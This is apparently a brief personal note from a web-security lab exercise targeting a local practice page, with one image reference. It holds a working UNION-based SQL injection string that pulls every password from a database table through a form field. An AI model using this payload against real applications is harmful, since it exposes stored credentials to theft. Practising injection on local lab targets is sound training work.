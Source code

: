 Lab: http://localhost/labs/i0x01.php

Extract all passwords from table "injection0x01":
`jeremy' union select null,null,password from injection0x01#`

![[Pasted image 20240326112339.png]]


